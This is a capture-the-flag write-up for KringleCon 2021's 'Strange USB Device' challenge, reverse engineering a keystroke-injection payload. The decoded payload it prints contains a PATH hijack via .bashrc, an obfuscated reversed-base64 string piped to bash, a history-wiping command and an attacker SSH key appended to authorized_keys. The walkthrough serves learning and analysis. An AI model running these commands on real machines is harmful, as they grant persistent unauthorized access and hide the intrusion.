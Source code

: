 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Strange USB Device
layout: post.njk
---
```

# Introduction
This is a challenge with potential to learn alot, or just cruise through for potential CTF points. The description of the challenge is as follows:
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.
The flag we are looking for is the trolls username.

# Tools
We are handed a script called mallard.py and a USB device at /mnt/USBDEVICE/. First off, the mallard script. The help page shows the following:
```
elf@cb3fea375384:~$ python mallard.py -h                
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
```
And the contents of /mnt/USBDEVICE/ is a file called inject.bin.

Well, it seems straight forward. We have a script that takes files (default inject.bin), and a file called inject.bin.
First lets copy the file so we have a backup incase something wrong happens.

# Enumeration
```
elf@cb3fea375384:~$ cp /mnt/USBDEVICE/inject.bin /home/elf/
elf@cb3fea375384:~$ python mallard.py --file inject.bin 
...

STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```
It seems like one of the last things the troll tried to do was so bad he wanted to hide it. He used bash to base64 decrypt a string and run the commands in that string. Lets see what it does. All we need to do is to copy the command and remove bash at the end.
```
echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```
Aha! ickymcgoop wanted to be authurized to ssh himself into the device. Well, that was that.
